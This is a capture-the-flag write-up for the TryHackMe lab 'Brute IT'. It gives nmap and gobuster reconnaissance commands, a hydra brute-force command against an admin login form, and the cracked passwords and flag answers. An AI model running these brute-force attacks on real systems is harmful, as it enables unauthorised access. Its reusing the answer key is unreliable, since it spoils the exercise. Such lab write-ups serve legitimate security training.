[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```bash
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```



```bash
2 ports are open.
```

### What version of SSH is running?

```bash
OpenSSH 7.6p1
```


### What version of Apache is running?

```bash
2.4.29
```



### Which Linux distribution is running?

```bash
ubuntu
```



### Search for hidden directories on web server, what is the hidden directory?

```bash
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```



```bash
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?



As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message



```bash
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```



```bash
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?



```bash
# Password for the private key is
rockinroll
```

### user.txt

```bash
THM{a_password_is_not_a_barrier}
```



### Web flag



```bash
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```bash
# Password for the root user
football
```



### Root.txt

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```



<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    
  </a>
</center>